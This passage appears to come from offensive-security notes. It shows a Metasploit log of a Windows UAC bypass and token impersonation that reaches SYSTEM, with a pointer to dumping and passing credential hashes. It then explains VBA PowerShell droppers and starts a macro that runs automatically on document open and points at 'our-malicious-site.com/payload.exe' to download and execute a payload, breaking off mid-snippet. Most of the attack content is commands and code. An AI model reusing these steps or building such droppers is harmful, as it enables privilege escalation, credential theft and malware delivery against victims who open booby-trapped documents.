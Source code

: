 ```bash
	msf6 exploit(windows/local/bypassuac_dotnet_profiler)> run
	meterpreter> grtpriv # You Should have more now ;)
# -------------------------------------------
# Time for Token Impersonate ...
	meterpreter> load incognito
	meterpreter> list_tokens -u # You should find -> ( NT AUTHORITY\SYSTEM )
	meterpreter> Impersonate_token "NT AUTHORITY\SYSTEM"
	meterpreter> getpriv # Hello Batman :)
	meterpreter> shell # just to be sure ..
	C:\WINDOWS\system32> whoami # Outputed == NT AUTHORITY\SYSTEM
	C:\WINDOWS\system32> whoami /priv # You still batman :)
	#-------------------------------
	# You can load kiwi and hashdumb the creds_ and go on .. but thats a whole other story ( Crack the hash or pass it, etc)
```

---

### **VBA PowerShell dropper.**

A **VBA PowerShell dropper** is a payload delivery technique that combines VBA with PowerShell. This method is commonly used by hackers to bypass traditional antivirus protections and execute malicious scripts or programs.

### In Nutshell

- A **dropper** is a type of malware designed to **download**, **extract**, or **deploy** additional malicious payloads on a target system.

---

### How a VBA PowerShell Dropper Works:

1. **Embedding VBA Code in Office Documents:**
   - The attacker creates an Office file (like a Word document or Excel spreadsheet) with embedded VBA macros.
   - The VBA macro contains obfuscated or encoded **PowerShell commands**.
2. **Triggering Execution:**
   - Once the victim opens the document and **enables macros**, the VBA code is executed.
   - This VBA script can silently **invoke PowerShell** to execute commands or download a payload from a remote server.
3. **Payload Delivery:**
   - The PowerShell command might:
     - Download and install malware (like a RAT, ransomware, or keylogger).
     - Perform reconnaissance, modify registry keys, or establish persistence.

---

### Example VBA Code Snippet (PowerShell Dropper.)

```vbnet
Sub AutoOpen()
		dropper
End Sub
Sub Document_Open()
		dropper
End Sub

Sub dropper()
    ' This VBA macro will execute automatically when the document opens
    Dim url As String
    Dim psScript As String
    url = "http://our-malicious-site.com/payload.exe"

    'This is the script that  download and execute the file
```